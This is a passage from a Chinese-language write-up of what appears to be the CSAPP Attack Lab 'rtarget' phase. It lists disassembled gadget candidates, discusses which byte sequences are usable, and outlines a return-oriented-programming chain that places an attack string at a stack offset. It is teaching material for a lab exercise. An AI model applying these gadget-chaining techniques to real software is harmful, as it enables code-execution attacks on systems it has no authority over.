 其把`%rdi`和`%rsi`累加到`%rax`中，那么我们要计算偏移量，需要分别把`%rsp`和偏移量放到`%rsi`和`%rdi`中。最后让`%rdi = rax`。

在`rtarget`中，与`%rsp`相关的字节有`48 89 e0`，其编码为`movq %rsp,%rax`。和`%esp`相关的字节有`89 e0`，其编码为`movl %esp, %eax`。包含这段编码的代码如下：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq

0000000000401a18 <getval_345>: // 不可取，c1不是单独指令
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	retq

0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq

0000000000401a47 <addval_201>: // 不可取，c7不是单独指令
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq

0000000000401a5a <setval_299>: // 不可取，91不是单独指令
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq

0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq

0000000000401a97 <setval_181>: // 不可取，c2不是单独指令
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq
```

那么之前的过程就变为：

```
1. rax = rsp(48 89 e0)
2. rsi = 偏移量
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

我们找一下以`%rsi`和`%rdi`为目的寄存器的指令。

以`%rdi`为目的寄存器的指令编码有`(48)* 89 (c|d|e|f)(7|f)`，在`rtarget`中可能的代码段如下：
